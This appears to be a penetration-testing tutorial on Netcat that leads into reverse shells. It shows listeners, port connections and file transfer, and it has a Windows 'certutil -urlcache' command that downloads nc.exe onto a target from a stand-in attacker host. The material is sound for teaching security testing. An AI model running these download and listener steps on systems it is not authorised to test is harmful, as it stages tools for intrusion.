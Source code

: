 Before talking about Reverse Shells, we need to get an understanding of a very important tool that will essentially be pivotal within this process.

**Netcat**, often referred to as the "Swiss Army knife" of networking, is a versatile tool that allows users to interact with network connections. It can be used for a wide range of tasks, including port scanning, transferring files, and setting up network listeners or reverse shells. Its simplicity and flexibility make it an essential tool for network administrators and penetration testers.

**Objective**: Explore the use of Netcat to set up a listener, transfer messages, and transfer files between two systems.

```shell
nc -help # netcat documentation
man nc # General Commands Manual

# Netcat provides you with the ability to connect to open ports on a target system
nc <target_IP> 80
# In this case, we are connecting to port 80 on the target system and because port 80 is running a web server we don't get a banner.

# Enable verbose output and disable DNS resolution
nc -nv <target_IP>

# Netcat can also be used to connect to UDP ports.
nc -nvu <target_IP>
```

In order to analyze how Netcat works in both server and client mode, we will need to transfer the nc.exe executable to the target system running Windows.

```shell
cd /usr/share/windows-binaries

# We can then setup an HTTP server with Python within this directory
python -m SimpleHTTPServer 80

# From the target Windows system, run via terminal the following command:
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# Now that we have Netcat setup on both systems, we can setup a Netcat listener on the Kali Linux system
nc -nvlp 1234

# We can now connect to the Netcat listener from the Windows Target system using the command line
nc -nv <my_kali_IP> 1234

# Now that we have established a connection between the Netcat listener and Netcat client, we can transfer messages between the two like a simple chat application.
```

Netcat can also be used to transfer files between a listener and a client.

```shell
# To get started, we can create a file called test.txt on the Kali Linux system with some sample data by running the following command:
echo "Hello, this was sent over with Netcat" >> test.txt

# We will now need to setup a Netcat listener on the recipient system, which in this case is the Windows system.
nc.exe -nvlp 1234 > test.txt

# On the Kali Linux system, we will need to connect to the listener and redirect the content of the test.txt file in to Netcat. 
nc -nv 10.0.27.35 1234 < test.txt
```
